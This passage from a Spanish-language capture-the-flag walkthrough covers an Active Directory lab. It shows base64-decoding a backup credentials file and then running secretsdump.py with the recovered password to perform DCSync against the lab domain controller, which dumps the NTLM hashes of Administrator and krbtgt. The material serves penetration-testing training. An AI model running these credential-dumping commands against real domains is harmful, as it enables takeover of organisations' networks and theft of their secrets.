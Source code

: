 <img width="1131" height="323" alt="otenemos un hashs de el archivo txt" src="https://github.com/user-attachments/assets/58fcc8e1-dd5d-414e-a078-a5562b5bd4be" />

```bash
cat backup_credentials.txt
# Ejemplo: mFja3wQ...<cadena-base64>...NTEzODYw
```

Decodificamos a texto claro:

<img width="679" height="129" alt="desciframos el hash del archivo" src="https://github.com/user-attachments/assets/29904d60-039e-4954-a7d0-114ec5215fcf" />

```bash
cat backup_credentials.txt | base64 -d
```

📌 Resultado: se obtiene un par usuario:contraseña para una cuenta de backup (según tu salida en claro).


## Paso 12 — **DCSync / NTDS dump** con `secretsdump.py` (credenciales de `backup`)

**Contexto**

Del `backup_credentials.txt` (Paso 11) obtuvimos credenciales en claro para la cuenta **backup**.  

Probamos si esa cuenta tiene privilegios que permitan **DCSync** (leer secretos del dominio vía `DRSUAPI`) y así **volcar hashes** de todas las cuentas.

<img width="1256" height="744" alt="ejecutamos scretsdump para obtener uusarios y hashes" src="https://github.com/user-attachments/assets/732ffd20-cdcd-4a06-9298-0d8ad180e94c" />


**Comando usado (según captura)**
```bash
secretsdump.py spookysec.local/backup:'backup2517860'@10.10.19.151 -just-dc
```

### En algunas instalaciones el binario se llama 'impacket-secretsdump'

Resultado

Método usado: DRSUAPI (-just-dc) → no requiere ejecutar nada en el host, solo leer del DC.

Se vuelcan las entradas domain\user:rid:lmhash:nthash:::

Por ejemplo (resumen):

spookysec.local\Administrator:500:...:NTLMHASH...:::

spookysec.local\krbtgt:502:...:NTLMHASH...:::

Usuarios estándar: james, robin, darkstar, backup, svc-admin, etc.

Kerberos keys grabbed: claves AES/DES/RC4 para múltiples cuentas (útiles para forjar tickets si fuera necesario).

✅ Con esto ya tenemos el NT hash del Administrator (y de krbtgt).
